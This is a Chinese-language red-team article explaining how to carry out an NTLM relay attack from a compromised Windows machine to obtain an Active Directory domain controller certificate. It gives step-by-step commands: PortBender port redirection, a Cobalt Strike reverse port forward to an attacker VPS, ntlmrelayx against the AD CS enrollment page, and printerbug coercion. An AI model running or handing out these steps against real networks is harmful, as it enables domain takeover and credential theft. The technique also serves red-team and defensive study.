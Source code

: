 Author:腾讯蓝军 Jumbo

前言
==

在域内，有很多种手法可以获取域控权限，包括不限于利用溢出类的漏洞如ms17-010、抓取域管密码，当然也有今天的主角，利用ntlm relay。ntlm relay手法有很多，比如利用WPAD、LLMNR等“被动性”攻击，利用打印机等“主动性”攻击，核心就是中继了他人的net-ntlm。但是呢，利用工具监听的都是本地445端口，受害者机器与我们通信的也是445端口，而在windows上445端口是占用的，难道利用ntlm relay手法只能基于linux机器？

攻击过程
====

首先把受控机的445端口流量重定向到受控机自己的8445端口，然后把受控机的8445端口转发到黑客机器的445端口上，黑客机器利用受控机的socks代理攻击其他机器：

[![](https://shs3.b.qianxin.com/attack_forum/2021/09/attach-29fe6609e6bebdafd9f4b02b0e4190712332961e.png)](https://shs3.b.qianxin.com/attack_forum/2021/09/attach-29fe6609e6bebdafd9f4b02b0e4190712332961e.png)

以攻击AD CS为例：

环境如下：

192.168.8.144 主域

192.168.8.155 辅域

vpsip cobaltstrike机器

192.168.8.75 受控机

受控机**管理员权限**执行：

利用https://github.com/praetorian-inc/PortBender 把受控机的445端口重定向到受控机自己的8445端口，首先把驱动传到**当前shell目录下（pwd）**，根据自己系统位数传：

`upload xxxx.sys`

执行重定向：

`PortBender redirect 445 8445`

开启端口转发：

`rportfwd 8445  vpsip  445`

cs开启socks。

黑客机器执行：

设置代理。

开启relay：

`proxychains4 ntlmrelayx.py -t http://192.168.8.144/certsrv/certfnsh.asp -smb2support --adcs --template 'domain controller'`

利用socks或者exe触发强制回连，如打印机：

`python printerbug.py domain.com/user:pass@192.168.8.155 192.168.8.75`

成功获取证书信息：

[![](https://shs3.b.qianxin.com/attack_forum/2021/09/attach-8de02c459bc929ffa5585be98ae64c87528802ee.png)](https://shs3.b.qianxin.com/attack_forum/2021/09/attach-8de02c459bc929ffa5585be98ae64c87528802ee.png)

总结
==

这里最好spawn多个进程出来执行不同的命令，因为要做的实在太多了，有重定向、端口转发、socks，如果全在一个session里面执行可能会挂。其次因为走了很多层流量转发，因此黑客机器上收到流量时会特别慢。